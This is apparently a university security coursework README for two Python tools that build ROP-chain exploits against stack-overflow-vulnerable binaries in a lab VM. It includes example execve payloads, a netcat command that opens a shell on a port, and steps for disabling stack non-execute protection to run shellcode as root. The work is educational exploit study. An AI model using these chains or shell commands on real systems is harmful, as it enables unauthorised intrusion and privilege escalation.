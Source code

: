 # COMSM0051 Systems and Software Security Coursework
## Project 4
### Group Members

This repository contains the source code created for the COMSM0051 Systems and Software Security unit at the University of Bristol.

The members of the group are:

* Ruairi Fox (rf17160)
* Bogdan Stelea (bs17580)
* Emil Centiu (zl18810)

## Instructions

### Prerequisites

The project has been developed and tested on a Ubuntu 18.04.5 LTS Bionic Beaver Virtual Machine. Please run the following commands to install all the packages needed to execute the project:

* `sudo apt-get update`
* `sudo apt-get install -y python3-pip gcc-multilib gdb`
* `sudo apt-get install -y libncurses5-dev libncursesw5-dev`
* `sudo apt-get install -y lynx`
* `sudo apt-get git`
* `git clone https://github.com/slimm609/checksec.sh.git`
* `sudo cp checksec.sh/checksec /bin/checksec`
* `pip3 install pygdbmi`
* `pip3 install capstone`
* `pip3 install ropgadget`

A Vagrantfile is also provided in the repository which will install automatically all the required packages on provision when initialising the VagrantBox `vagrant up`.
In order to use the Vagrantfile, the Vagrant and Oracle VirtualBox utilities need to be installed. 

In order to install VirtualBox please follow the instructions for specific Operating Systems [here](https://www.virtualbox.org/wiki/Downloads).
In order to install Vagrant please follow the instructions for specific Operating Systems [here](https://www.vagrantup.com/).

### Connecting to the Vagrant Virtual Machine

1. Start the Vagrant Virtual Machine: `vagrant up`
1. Connect to the Vagrant Virtual Machine: `vagrant ssh`
1. Change directory to the shared directory which includes the project files: `cd s3`

### Running `ropoverflow_execve.py`

The tool `ropoverflow_execve.py` is a Python3 program that given arbitrary command line arguments to be passed to the `execve()` system call automatically generates the corresponding ROP chain.

The program can be used as follows: `python3 ropoverflow_execve.py <binary name> <payload name>`, where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The program will also prompt the user to type the command line arguments to be passed to the `execve()` system call separated by whitespace (i.e. `" "`). The program will automatically detect if further `/` characters need to be inserted. 

Here are some example command line parameters that can be given as input when prompted:

* `/bin/sh`
* `/bin//sh`
* `/bin/sh ./exe/crl.sh`
* `/bin/sh ./exe/lyn.sh`
* `/tmp/nc -lnp 5678 -tte /bin/sh`
* `/tmp//nc -lnp 5678 -tte /bin//sh`

The program will generate a file having the same name as written by the user when executed corresponding to the `<payload name>` entry. This can be passed in as input to the vulnerable binary in order to inject the payload, for example `./vuln3-32-test exploit.bin`.

#### Example Use Case
1. Run `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`
1. When prompted, enter the command line arguments: `/bin/sh`
1. Run `./vuln3-32-test exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 

### Lab4 Reverse Shell Exploit Task Using `ropoverflow_execve.py`
#### Aim
Open a port on the victim machine using netcat tool that returns a shell (reverse shell exploit).
#### Steps
1. Configure and make the netcat tool: `cd ~/netcat-0.7.1` and `sudo ./configure` and `make`
1. Copy netcat to temporary folder using `sudo cp ~/netcat-0.7.1/src/netcat /tmp/nc` (check using `/tmp/nc --help`)
1. Change current directory to `s3` : `cd ~/s3`
1. Compile vuln3.c using `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32-test` (the example binary is already compiled and present under the same name, `vuln3-32-test`, in the current directory)
1. Build the exploit input string using `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`. When prompted with the message `"Enter exploit parameters:"` enter: `/tmp/nc -lnp 5678 -tte /bin/sh`
1. Run the compiled vulnerable binary passing the exploit file as input (e.g. `./vuln3-32-test exploit.bin`)
1. In a separate terminal run `/tmp/nc 127.0.0.1 5678` and check if the reverse shell exploit is working

### Running `ropoverflow_execve.py` Evaluation
1. Change current directory to vulnerable_programs/: `cd ~/s3/vulnerable_programs`
1. (Optional) Delete binary files: `make clean`
1. Compile vulnerable binary files: `make all`
1. Return to project directory: `cd ..`
1. Create ROP-chain exploit file for a vulnerable binary: `python3 ropoverflow_execve.py ./vulnerable_programs/vuln3-32-0 exploit.bin`
1. Enter `execve` parameters when promted by the program: 
```
Enter exploit parameters: /bin/sh
```
1. Run vulnerable binary file with the exploit file as input: `./vulnerable_programs/vuln3-32-0 exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 
### Running `ropoverflow.py`

The tool `ropoverflow.py` is a Python3 program that given an arbitrary shellcode file will generate a ROP chain that will call the `mprotect` system call which will disable the `write-xor-execute` protection from the stack, and then will call the `read` system call to read the shellcode from the standard input, which will place the shellcode on the program stack, and then execute the payload.

The program is run with the command: `python3 ropoverflow.py <binary name> <payload name>`, , where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The shellcode needs to be saved in a binary file, for example `badfile`. Then the user can run the exploit by using the `cat` Linux utility to paste the content of the shellcode file to the terminal and append `-` to allow the program to process entries from standard input, and use the pipe (`|`) operator to pass the content of the file to the vulnerable binary that is being passed the payload file containing the ROP chain generated by the `ropoverflow.py` program. An example command looks like following: `cat badfile -| ./vuln3-32-test exploit.bin`. 

#### Example Use Case
1. Run `python3 ropoverflow.py vuln3-32-test exploit.bin`
1. Run `cat test_codes/shell - | sudo ./vuln3-32-test exploit.bin`
1. The program will return a root user shell